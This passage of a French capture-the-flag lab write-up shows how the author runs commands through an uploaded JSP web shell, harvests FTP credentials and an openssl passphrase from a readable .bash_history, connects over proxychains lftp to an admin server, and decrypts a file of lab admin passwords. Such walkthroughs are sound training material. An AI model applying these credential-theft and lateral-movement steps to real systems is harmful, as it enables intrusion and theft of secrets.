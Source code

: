 Le serveur nous répons avec `HTTP/1.1 201 Crée`, merveilleux, nous pouvons mainteant exécuter des commandes sur le serveur via la page http://10.0.0.0:8080/rookie.jsp.

## Un historique Bash mal nettoyé

Dans la TODO-list, nous avions vu le message suivant : _"Some credentials was found on project-server. Please can you check your home and delete sensible informations ? Thx"_.

En effet, les répertoires des utilisateurs ont été nettoyés, mais ont-ils été vraiment bien nettoyés ? Lorsque nous cherchons un peu sur le serveur, nous sommes mis sur la voie par les droits en lecture du fichier `/home/dcloutier/.bash_history` (-rw-r--r--), seul fichier `.bash_history` entre tous accessible en lecture. Et bingo, on y retrouve des identifiants FTP :

{{< code lang="plaintext" icon="file-text-o" title="/home/dcloutier/.bash_history" >}}
[...]

tar -czf - credentials.txt | openssl enc -e -aes256 -out credentials.tar.gz
tar -czf - credentials.txt | openssl enc -e -aes256 -out credentials.tar.gz --pass pass:daniel2019
ls -al
cat credentials.txt 
lftp -u 'backup,46t5r2e5t&2z!' admin-server
lftp -c 'open -u backup,46t5r2e5t&2z! admin-server; put -O / credentials.tar.gz' 
lftp -c 'open -u backup,46t5r2e5t&2z! admin-server; put -O / ~/credentials.tar.gz' 

[...]
{{< /code >}}

## Connexion FTP et récupération des identifiants

Grace aux identifiants ainsi trouvés, nous pouvons utiliser le compte **backup** pour nous connecter au FTP sur serveur d'administration (`10.0.0.3`) et récupérer le fichier `credentials.tar.gz` que l'utilisateur **dcloutier** y a déposé :

{{< code lang="console" icon="code" title="Console" >}}
host:~$ proxychains lftp -u 'backup,46t5r2e5t&2z!' 10.0.0.3
host:~$ openssl enc -d -aes256 -in credentials.tar.gz -out credentials.tgz --pass pass:daniel2019
host:~$ tar -xcvf credentials.tgz
host:~$ cat credentials.txt
{{< /code >}}

Nous obtenons enfin tous les sésames pour le serveur d'administration !

{{< code lang="markdown" icon="file-text-o" title="credentials.txt" >}}
CREDENTIALS 
=========== 
- Basic auth on http://admin-server:80 
   + Username : admin 
   + Password : zedc0rp2019! 

- Simple test account on http://admin-server:80 
   + Username : user 
   + Password : user-zedcorp-2019 

- Privileged test account on http://admin-server:80 
   + Username : admin 
   + Password : admin-zedcorp-2019 
